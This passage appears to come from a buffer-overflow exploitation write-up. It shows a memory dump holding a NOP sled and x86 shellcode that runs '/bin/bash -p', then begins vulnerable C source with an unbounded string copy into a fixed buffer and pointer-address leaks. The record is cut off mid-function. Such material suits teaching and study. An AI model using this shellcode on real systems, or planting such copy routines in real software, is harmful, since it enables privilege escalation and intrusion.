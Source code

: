 0xbffff6a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff6b0:	0x6a909090	0x5299580b	0x702d6866	0x6a52e189
0xbffff6c0:	0x622f6868	0x2f687361	0x896e6962	0x535152e3
0xbffff6d0:	0x80cde189	0xdeadbeef	0x5a5a5a5a	0xbfff0000
```

Let's modify the source code:
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <ctype.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFER 512

struct Init
{
  char username[128];
  uid_t uid;
  pid_t pid;  
    
};

void cpstr(char *dst, const char *src)
{
  for(; *src; src++, dst++)
    {
      *dst = *src;
    }
  *dst = 0;
}
void chomp(char *buff)
{
  for(; *buff; buff++)
    {
      if(*buff == '\n' || *buff == '\r' || *buff == '\t')
	{
	  *buff = 0;
	  break;
	}
    }
}
struct Init Init(char *filename)
{
   
  FILE *file;
  struct Init init; 
  char buff[BUFFER+1];  
   
   
  if((file = fopen(filename, "r")) == NULL)
    {
      perror("[-] fopen ");
      exit(0);
    }
  printf("%x <- file add\n", file);   
  printf("%x <- stderr addr\n", stderr);   
  memset(&init, 0, sizeof(struct Init));
   
